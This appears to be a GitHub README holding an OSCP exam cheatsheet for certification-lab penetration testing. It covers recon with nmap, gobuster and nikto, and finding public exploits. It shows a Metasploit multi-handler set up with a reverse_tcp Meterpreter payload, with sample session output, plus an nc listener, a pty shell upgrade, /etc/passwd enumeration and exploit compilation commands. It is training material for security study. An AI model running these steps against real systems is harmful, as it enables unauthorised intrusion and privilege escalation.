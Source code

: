 # OSCP
OSCP Exam Cheatsheet.

# Index

- [Preparation](#preparation)
- [Recon](#recon) 
- [Preparation](#preparation) 

# Content

### PREPARATION
Kali Wordlists: `/usr/share/wordlists`  
SecLists: https://github.com/danielmiessler/SecLists

Useful Tools:
```bash
$ enum4linux [ target_ip ]	# Enumerate Windows / Samba (SMB) hosts.
```

### RECON
Scan network range for valid IPs/hostnames:  
```bash
i="0"
while [ $i -lt "255" ]
do nslookup 10.11.1.$i 10.11.1.220 | grep -v "NXDOMAIN" | grep name
	i=$[ $i+1 ]
done
```

Nmap port scans:
(NOTE: Heavy scanning may result in ports being filtered/closed - wait <15 minutes to be unbanned)
```bash
$ nmap 10.11.1.71 --top-ports 20 --open	# Top 20 TCP ports scan on initial box
$ nmap 10.11.1.71 -p- -sV		# Complete TCP port scan + service banner grab on each box:
```

For each service, check available Nmap scripts:
```bash
$ ls -l /usr/share/nmap/scripts/*ssh*
```

Summarise your recon findings on the target:
* IP / DNS?
* OS?
* Ports (TCP / UDP)?
* Services / Applications?
* Which is the best entry point so far?
* Prioritised list of attack vectors:
	* Explore the web application.
	* Search for vulnerabilities in the known services & applications.
	* Brute force SSH with common & weak credentials.


### DEEPER RECON (SERVICE-LEVEL) - WEBAPP EXAMPLE

Scripts:
```bash
$ curl -i -L 10.11.1.71 						  # Follow re-directs
$ curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//' # Internal/external links
$ gobuster -u http://10.11.1.71/ \					  # Directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/common.txt \
	   -s '200,204,301,302,307,403,500' -e
$ gobuster -u http://10.11.1.71/cgi-bin/ \				  # 2nd directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/cgis.txt \
	   -s '200,204,403,500' -e
```

Other things to check:
* robots.txt
* social media
* source code (if app is based on open-source code)

Re-evaluate attack surface:
* Any new findings to add to our list of attack vectors?

### FIND VULNS + EXPLOIT CODE

Tools:
```bash
# Nikto webapp scanner:
$ nikto -host 10.11.1.71

# Searchsploit (exploit-db):
$ searchsploit [options] [search_term1] [search_term2] . . . [search_termN]

# Nmap Scripting ENgine
$ ls -l /usr/share/nmap/scripts/*service_name*
```

Other areas to find exploit code:
* Google Shellshock POC
* Google one-liners from github

If no good attack vectors / exploit can be found, try a different or more comprehensive wordlist for subdirectory brute-forcing or use a webapp scanner to poke harder at the system.

### USING EXPLOIT CODE

Using the public exploit you found + Metasploit Multi-Handler, you can establish a Meterpreter session with the target.

Metasploit Handler usage w/ public exploit:
```bash
# Set up Metasploit Handler (use multi-handler -> set reverse shell payload -> set variables -> run handler)
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
$ msf exploit(handler) > set EXITFUNC thread
$ msf exploit(handler) > set LHOST 10.11.0.31
$ msf exploit(handler) > set LPORT 443
$ msf exploit(handler) > run
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 

# Execute Public Exploit:
$ python exploit.py [ target_ip ]

# Metasploit Handler (meterpreter session -> background the session -> connect back to session)
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 
[*] Sending stage (179267 bytes) to 10.11.1.5
[*] Meterpreter session 0 opened (10.11.0.31:443 -> 10.11.1.5:1199) at 2019-01-07 22:46:33 +1100
meterpreter > help
. . . 
meterpreter > background
msf exploit(ms08_067_netapi) > sessions -i 0
[*] Starting interaction with 0...
meterpreter >
```

Meterpreter sometimes doesn't work.  
Go back to using `nc -nvlp 80` and trigger reverse shell in vulnerable app/service.


### PRIVILEGE ESCALATION - ENUM

Get a proper shell: https://netsec.ws/?p=337
```bash
# This shell mostly works
python -c 'import pty; pty.spawn("/bin/sh")'
```

General privesc guide:
* https://www.reddit.com/r/oscp/comments/9ystub/i_absolutely_suck_at_privilege_escalation/?st=JOQAMPYP&sh=8899be73

Linux privesc:
* https://github.com/ankh2054/linux-pentest/blob/master/linuxprivchecker.py
* https://github.com/rebootuser/LinEnum (automated scan)
* https://tools.kali.org/vulnerability-analysis/unix-privesc-check (Kali tool)
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  

Windows privesc:
* https://github.com/azmatt/windowsEnum (automated scan)
* http://www.exumbraops.com/penetration-testing-102-windows-privilege-escalation-cheatsheet/
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
* http://www.fuzzysecurity.com/tutorials/16.html

Questions to ask:
* User RWX permissions enabled on files/directories
* Config.* files
* Custom programs
* SUID / SGID programs
* Cron jobs / scheduled programs or scripts
* Hardcoded credentials -> where are credentials kept?


Linux Privesc:
```bash
# OS? Version? Architecture?
$ cat /etc/*-release
$ uname -i
$ lsb_release -a (Debian)
 
# Who are we? Where are we? What are our sudo privileges?
$ id
$ pwd
$ sudo -l
 
# Other users? Which ones have a valid shell?
$ cat /etc/passwd
$ grep -vE "nologin|false" /etc/passwd
 
# Services running on the box? Network services running?
ps aux
netstat -antup
 
# Whats installed? Kernel?
dpkg -l (Debian)
rpm -qa (CentOS / openSUSE)
uname -a
```

Windows Privesc:
```
# Find a file recursively
dir filename.exe /S /B
```

Summarise possible attack vectors / vulnerable services to escalate privileges.

### PRIVILEGE ESCALATION - FINDING EXPLOIT

Use information gathered from enumeration stage to find an exploit for vectors / vulnerable services in your list.



### EXPLOITS - USING / COMPILING

Compilation tips:
* `./exploit` results in errors: compile in the host itself, Kali box or another machine.

Useful compilation commands:
```bash
# Linux
$ gcc -m32 -Wl,--hash-style=both exploit.c -o exploit

# Windows (cross-compile) and run
$ i686-w64-mingw32-gcc 25912.c -o exploit.exe -lws2_32
$ wine exploit.exe
```



